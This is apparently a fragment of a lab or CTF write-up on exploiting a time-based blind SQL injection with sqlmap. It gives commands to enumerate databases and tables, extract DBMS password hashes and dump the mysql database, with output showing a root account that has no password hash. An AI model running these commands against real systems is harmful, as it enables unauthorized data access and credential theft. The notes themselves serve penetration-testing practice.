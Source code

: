 ```bash
[*] mysql
[*] performance_schema
[*] qualitycare
```

`sqlmap -u URL --batch --passwords`

database management system users password hashes:

```bash
[*] root [1]:
    password hash: NULL
```

time-base blind attach is **SUPER SLOW**, so narrowing it down to a single DB, possible table and better limit to column as well

`sqlmap -u ${URL} --batch -D mysql --dump`

find available databases

`sqlmap -u ${URL} --batch --dbs`

find the tables in the specific database

`sqlmap -u ${URL} --batch -D mysql --tables`

`sqlmap -u ${URL} --batch -D qualitycare --tables`

```bash
Database: mysql
[30 tables]
+---------------------------+
| user                      |
| column_stats              |
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| gtid_slave_pos            |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| index_stats               |
| innodb_index_stats        |
| innodb_table_stats        |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| roles_mapping             |
| servers                   |
| slow_log                  |
| table_stats               |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
+---------------------------+
```
